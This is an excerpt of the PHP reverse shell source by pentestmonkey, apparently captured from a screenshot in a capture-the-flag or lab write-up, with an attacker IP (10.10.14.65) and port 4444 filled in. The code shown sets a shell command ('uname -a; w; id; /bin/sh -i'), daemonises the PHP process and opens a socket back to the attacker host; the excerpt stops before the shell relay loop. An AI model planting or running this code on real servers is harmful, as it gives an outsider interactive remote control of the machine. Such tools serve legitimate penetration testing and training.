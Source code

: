 ```php
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.65';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();

    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }

    if ($pid) {
        exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}
```